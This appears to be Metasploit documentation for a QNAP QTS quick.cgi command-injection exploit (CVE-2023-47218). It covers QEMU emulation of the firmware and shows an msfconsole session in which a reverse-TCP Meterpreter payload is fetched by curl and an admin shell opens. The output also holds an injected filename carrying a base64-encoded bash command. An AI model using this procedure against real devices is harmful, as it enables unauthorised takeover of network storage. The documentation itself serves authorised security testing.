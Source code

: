 ## Vulnerable Application

### Description
There exists an unauthenticated command injection vulnerability in the QNAP operating system known as QTS and
QuTS hero. QTS is a core part of the firmware for numerous QNAP entry and mid-level Network Attached Storage
(NAS) devices, and QuTS hero is a core part of the firmware for numerous QNAP high-end and enterprise NAS devices.

The vulnerable endpoint is the quick.cgi component, exposed by the device’s web based administration feature.
The quick.cgi component is present in an uninitialized QNAP NAS device. This component is intended to be used
during either manual or cloud based provisioning of a QNAP NAS device. Once a device has been successfully
initialized, the quick.cgi component is disabled on the system.

An attacker with network access to an uninitialized QNAP NAS device may perform unauthenticated command
injection, allowing the attacker to execute arbitrary commands on the device.

### Setup
Vulnerable firmware can be downloaded from:
[TS-X64_20230926-5.1.2.2533.zip](https://download.qnap.com/Storage/TS-X64/TS-X64_20230926-5.1.2.2533.zip)
In order to decrypt the firmware use the following script:
[qnap-qts-fw-cryptor.py](https://gist.github.com/ulidtko/966277a465f1856109b2d2674dcee741)

Unzip the archive:
```
user@dev:~/qnap/$ unzip TS-X64_20230926-5.1.2.2533.zip 
Archive:  TS-X64_20230926-5.1.2.2533.zip
  inflating: TS-X64_20230926-5.1.2.2533.img  
```

Decrypt the firmware:
```
user@dev:~/qnap/$ python3 qnap-qts-fw-cryptor.py d QNAPNASVERSION5 TS-X64_20230926-5.1.2.2533.img TS-X64_20230926-5.1.2.2533.tgz
Signature check OK, model TS-X64, version 5.1.2
Encrypted 1048576 of all 220239236 bytes
[99% left]
[99% left]
[99% left]
...snip
[02% left]
[00% left]
[00% left]
user@dev:~/qnap/$ ls
qnap-qts-fw-cryptor.py  TS-X64_20230926-5.1.2.2533.img  TS-X64_20230926-5.1.2.2533.tgz  TS-X64_20230926-5.1.2.2533.zip
```

Recreate the root file system:
```
user@dev:~/qnap/$ mkdir firmware
user@dev:~/qnap/$ tar -xvzf TS-X64_20230926-5.1.2.2533.tgz -C ./firmware/
user@dev:~/qnap/$ binwalk -e firmware/initrd.boot
user@dev:~/qnap/$ binwalk -e firmware/_initrd.boot.extracted/0
user@dev:~/qnap/$ binwalk -e firmware/rootfs2.bz
user@dev:~/qnap/$ binwalk -e firmware/_rootfs2.bz.extracted/0
user@dev:~/qnap/$ mv firmware/_rootfs2.bz.extracted/_0.extracted/* firmware/_initrd.boot.extracted/_0.extracted/cpio-root/
```

To run the Firmware first copy the qemu-x86_64-static binary into the root file system folder:
```
user@dev:~/qnap/$ cd firmware/_initrd.boot.extracted/_0.extracted/cpio-root/
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ cp $(which qemu-x86_64-static) .
```

Run _thttpd_ via QEMU:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ 
sudo chroot . ./qemu-x86_64-static usr/local/sbin/_thttpd_ -p 8080  -nor -nos -u admin -d /home/httpd -c '**.*' -h 0.0.0.0 -i /var/lock/._thttpd_.pid
```

Verify the HTTP server is running:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo netstat -lnp | grep 8080
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1195417/./qemu-x86_ 
```

At the time of writing `/dev/random` and `/dev/urandom` are required to be present in the environment in order to work
around the following issue: https://github.com/rapid7/mettle/issues/255.
Ensure the binaries exist on your system:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ ls /dev/random
/dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ ls /dev/urandom
/dev/urandom
```

Create files the files:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ touch dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ touch dev/urandom
```

Mount the binaries:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo mount --bind  /dev/random  dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo mount --bind  /dev/urandom  dev/urandom
```

Drop to a shell via QEMU:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo chroot . /bin/sh
```

Enable the component quick.cgi:
```
sh-3.2# chmod +x /home/httpd/cgi-bin/quick/quick.cgi
```

Fix a linker issue with QEMU:
```
sh-3.2# rm /lib/libnl-3.so.200
sh-3.2# ln -s /lib/libnl-3.so.200.24.0 /lib/libnl-3.so.200
```

Create this folder as it will be present in a NAS device containing a hard drive:
```
sh-3.2# mkdir /mnt/HDA_ROOT
```

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/qnap_qts_rce_cve_2023_47218`
1. Set the following options: `RHOST`, `RPORT`, `LHOST` and `FETCH_SRVPORT` if 8080 is already in use.
1. Run the module
1. Receive a Meterpreter session as the `admin` user.

## Scenarios
### TS-X64_20230926-5.1.2.2533 firmware emulated via qemu using the steps above.
```
msf > use linux/http/qnap_qts_rce_cve_2023_47218
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set rport 8080
rport => 8080
msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set lhost 172.16.199.158
lhost => 172.16.199.158
msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set fetch_srvport 8085
fetch_srvport => 8085
msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > options

Module options (exploit/linux/http/qnap_qts_rce_cve_2023_47218):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.199.130   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                       loit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP
                                                  , WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      mvcWDkBxSOK      no        Name to use on remote system when storing payload; cannot
                                                  contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8085             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /mnt/update      yes       Remote writable dir to store payload; cannot contain space
                                                  s.
   LHOST               172.16.199.158   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/http/qnap_qts_rce_cve_2023_47218) > run

[*] Started reverse TCP handler on 172.16.199.158:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (3045380 bytes) to 172.16.199.130
[+] Deleted /mnt/update/RjzvVkLp
[+] Deleted /mnt/update/"$($(echo -n YmFzaCAvbW50L3VwZGF0ZS9Sanp2VmtMcA==|base64 -d))"
[*] Meterpreter session 1 opened (172.16.199.158:4444 -> 172.16.199.130:40004) at 2024-02-15 12:20:04 -0900

meterpreter > getuid
Server username: admin
meterpreter > sysinfo
Computer     : 172.16.199.130
OS           :  (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

